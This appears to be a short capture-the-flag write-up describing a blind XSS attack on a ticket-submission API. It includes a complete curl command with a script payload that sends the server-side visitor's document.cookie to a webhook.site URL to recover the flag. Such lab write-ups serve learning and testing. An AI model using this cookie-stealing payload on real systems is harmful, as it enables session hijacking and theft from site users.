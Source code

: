 Create a hook: webhook.site
My web hook -> https://webhook.site/eff815dc-37db-43cb-813e-4fa047de3dfa
My target:138.68.186.7:31990

---
We have to do (blind) XSS to inject a payload that allow us to load a cookie that is stored in the server. We trick the server to return the internal cookie

```bash
curl -X POST http://138.68.186.7:31990/api/submit_ticket --header 'Content-Type: application/json' -d '{"name":"test", "email":"test", "website":"test", "message":"<script>new Image().src=\"https://webhook.site/eff815dc-37db-43cb-813e-4fa047de3dfa/?c=\"+document.cookie;</script>"}'
```
Once the server receives the request and process it, our hook is executed.
If we check now the page <webhook.site> we will see a new connection there.
In that connection, we will find the flag in the cookies (document.cookie) 

![[webhook_page.png]]
